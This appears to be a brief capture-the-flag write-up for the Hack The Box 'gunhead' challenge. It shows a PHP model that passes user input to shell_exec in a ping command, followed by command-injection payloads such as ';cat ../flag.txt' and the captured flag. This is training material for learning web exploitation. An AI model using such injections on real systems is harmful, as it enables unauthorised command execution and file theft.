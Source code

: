 # gunhead

**SOLVED**

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. 
> With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

`./build-docker.sh` -> http://127.0.0.1:1337

dockerfile -> mariadb, php

fpm? FastCGI Process Manager (FPM) https://www.php.net/manual/en/install.fpm.php

`challenge/models/ReconModel.php` 

```php
return shell_exec('ping -c 3 '.$this->ip);

# payloads:

# /ping ;pwd
# /ping ;ls ../
# /ping ;cat ../flag.txt
```

`HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`
